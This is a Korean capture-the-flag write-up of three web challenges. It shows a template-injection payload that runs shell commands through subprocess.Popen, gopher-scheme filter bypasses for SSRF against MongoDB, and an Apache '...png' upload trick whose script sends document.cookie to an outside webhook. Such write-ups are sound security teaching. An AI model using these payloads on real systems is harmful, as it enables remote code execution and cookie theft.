


## Write-Up

### compound interest


메모 기능에서 SSTI가 터져 RCE 할 수 있다

```
{{"".__class__.__base__.__subclasses__()}}
```

subclasses 나열시켜서 `subprocess.Popen` 값 인덱스 찾은 다음에 플래그 읽어오면 된다.

```
{{"".__class__.__base__.__subclasses__()[382]('cat flag.txt',shell=True,stdout=-1).communicate()}}
```

`lguplus2025{ece1436847b6ca03c17cfe98b30c5874de755373aa9ae16e2b32047c02dee73b}`

---

### cowfarm

```js
app.get("/flag", async (req, res) => {
  const { id } = req.query;
  if (!id) {
    return res.status(400).send("ID is required");
  }
  const cow = await Animal.findOne({ id });
  if (!cow) {
    return res.status(404).send("Cow not found");
  }

  if (cow.name !== "cow") {
    return res.status(400).send("Cow is not a cow");
  }

  if (cow.age !== 1) {
    return res.status(400).send("Cow is not 1 year old");
  }

  if (cow.breed !== "super_cow") {
    return res.status(400).send("Cow is not a super cow");
  }

  res.send(`wow, you've got a super cow!! here is your flag: ${process.env.FLAG}`);
});
```

DB에 있는 값이 다음 조건을 만족시키면 플래그를 얻을 수 있다.

```js
app.get("/new_cow", async (req, res) => {
  const { name, age } = req.query;

  if (!name) {
    return res.status(400).send("Name is required");
  }

  if (!age) {
    return res.status(400).send("Age is required");
  }
  try {
    const id = crypto.randomUUID();
    const cow = await Animal.create({ id: id, name: name, age: age, breed: "cow" });
    return res.send(cow);
  } catch (error) {
    return res.status(500).send("Internal server error");
  }

})
```

`name`과 `age`는 임의로 설정할 수 있으나, `breed`를 `super_cow`로 만들긴 어려워보인다.

```js
async function getUrlStatusCode(_url) {
  return new Promise((resolve, reject) => {
    if (_url.toLowerCase().startsWith("gopher://") || _url.toLowerCase().startsWith("telnet://") || _url.toLowerCase().startsWith("file:")) {
      reject(new Error("Protocol not allowed"));
      return;
    }

    const urlBuffer = Buffer.from(url.parse(_url).href);
    
    execFile("curl", ["-w", "%{http_code}", "-o", "/dev/null", "-I", "-L", urlBuffer], (error, stdout, stderr) => {
      if (error) {
        reject(error);
        return;
      }

      const result = stdout;
      resolve(result);
    });
  });
}

app.get("/curl", async (req, res) => {
  const { url } = req.query;
  if (!url) {
    return res.status(400).send("URL is required");
  }

  try {
    const code = await getUrlStatusCode(url);
    return res.send(code);
  } catch (error) {
    console.error(error);
    return res.status(500).send("Internal server error");
  }
});
```

필터링을 적절히 우회해 Mongo DB SSRF를 성공시켜야한다.

다양한 우회방법들이 나왔는데
- `gopher:\\`
- `(BLANK)gopher://`
- `gopher:/`

어느걸 쓰던 간단하게 우회할 수 있다.

`-L` 플래그가 설정 되어 있다는 점을 통해 내 서버로 curl 요청 -> gopher로 리다이렉트 시켜보려했으나 잘 안 되었다.
curl은 -L로 리다이렉트 될 때 처음 입력된 url의 scheme와 redirect 되는 scheme이 같은지 검증하는 절차를 거친다고 한다.

암튼 그래서 결과적으로는 `cow.breed` 값을 수정하는 mongo db raw packet을 wireshark로 tcp dump 딴 후에 gopher로 ssrf 할 수 있었다고 한다.

[2023 Dice CTF](https://www.youtube.com/watch?v=sVtRwp9R-_8)에서 비슷한 기법이 나왔었으니 참고하자

`lguplus2025{4b0158738ba67e82f71d4c3242d89071}`

---

### simple-image-viewer

(본인은 못풀었으나) 간단한 트릭 문제였다.

apache로 돌아가는 Image Viewer 서비스다. 봇이 주어지는걸로 봐서 XSS 해야한다는걸 유추할 수 있다.

코드는 꽤 간단하다.

```js
app.post('/upload', upload.single('image'), (req, res) => {
  if (!req.file) {
    return res.status(400).send('No file uploaded.');
  }

  if (req.file.size > 1024 * 1024) {
    return res.status(400).send('File size is too large.');
  }

  if (!['image/png', 'image/jpeg', 'image/gif'].includes(req.file.mimetype)) {
    return res.status(400).send('Invalid file type.');
  }

  //filename.filename.png
  console.log(path.extname(req.file.filename))
  console.log(path.extname(req.file.filename).slice(1))
  if (!['png', 'jpg', 'jpeg', 'gif'].includes(path.extname(req.file.filename).slice(1))) {
    return res.status(400).send('Invalid file extension.');
  }

  res.redirect(`/?image=${req.file.path}`);
});
```

문제 풀어본 사람들은 알겠지만 그냥 XSS 할 벡터가 안보인다.

취약점은 이미지 업로드에서 터진다

https://x.com/YNizry/status/1582733545759330306

해당 게시물에 따르면 apache는 이름이 `.`으로만 되어있는 파일에 대해 Content-Type을 반환하지 않는다고 한다.

따라서 `...png` 같은 이름으로 파일을 업로드하면 이미지로 로드되지 않고 파일 본문을 html로 포함하게 되어 XSS가 가능하다.

```
------WebKitFormBoundaryXWCDORG7efpmqeyr
Content-Disposition: form-data; name="image"; filename="...png"
Content-Type: image/png

<script>location.href="https://ijvxjui.request.dreamhack.games?q="+document.cookie</script>
------WebKitFormBoundaryXWCDORG7efpmqeyr--
```

그대로 제출하면 웹훅으로 플래그 날아온다.

`http://3.36.14.255:3000/report?path=uploads/3f64fdf5-529b-4b00-94c2-e5b90819c473/...png`



`lguplus2025{50eb1bcbe258aff5e32155c406aa24df}`
